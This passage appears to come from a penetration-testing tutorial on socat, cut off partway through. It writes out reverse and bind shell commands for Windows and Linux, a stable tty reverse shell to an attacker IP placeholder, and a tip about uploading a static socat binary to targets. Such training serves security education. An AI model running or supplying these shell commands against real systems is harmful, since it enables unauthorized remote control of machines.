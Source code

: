 ```
On ```Windows``` we would use this command to connect back:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
The ```"pipes" option``` is used to ```force powershell``` (or cmd.exe) to ```use Unix style standard input and output```.

This is the equivalent command for a Linux Target:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

### Bind Shells
---

On a ```Linux``` target we would use the following command:
```
socat TCP-L:<PORT> EXEC:"bash -li"
```
On a ```Windows target``` we would use this command for our listener:
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
We use the ```"pipes" argument``` to interface between the```Unix and Windows``` ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

---

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, ```stty raw -echo; fg``` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- ```pty```, allocates a pseudoterminal on the target -- part of the stabilisation process

```